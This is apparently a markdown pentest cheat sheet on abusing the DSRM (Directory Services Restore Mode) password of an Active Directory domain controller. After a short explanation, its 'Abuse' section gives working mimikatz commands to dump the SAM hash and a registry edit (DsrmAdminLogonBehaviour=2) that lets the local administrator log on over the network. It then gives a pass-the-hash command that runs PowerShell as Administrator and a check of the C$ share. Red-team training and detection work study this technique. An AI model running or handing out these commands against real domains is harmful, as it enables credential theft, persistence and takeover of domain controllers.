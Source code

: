 #powershell #mimikatz 
- Stands for Directory Services Restore Mode.
- By default, we can't login as the local Administrator in the DC. The password for this account is the DSRM password which was setup during the server installation.
- DSRM password is also called the SafeMode password. It is required when a server is promoted to Domain Controller, or when the server is rebooted in the Safe Mode.
# Abuse
- Dump DSRM password (Required Domain Administrator Privs)
```powershell
token::elevate
lsadump::sam # As DSRM password is a local account, we dump the local SAM database.
```
- This DSRM password can be used to perform Pass-The-Hash attacks
```powershell
# Registry edits are required to enable logon using the local admin
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD

# Can be verified with
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa"

# Now the hash of this Account can be used to perform pass the hash and get command exection on the DC
sekurlsa::pth /domain:<dc-hostname> /user:Administrator /ntlm:<hash> /run:powershell.exe

# verificaiton
ls \\<dc-machine>\C$
```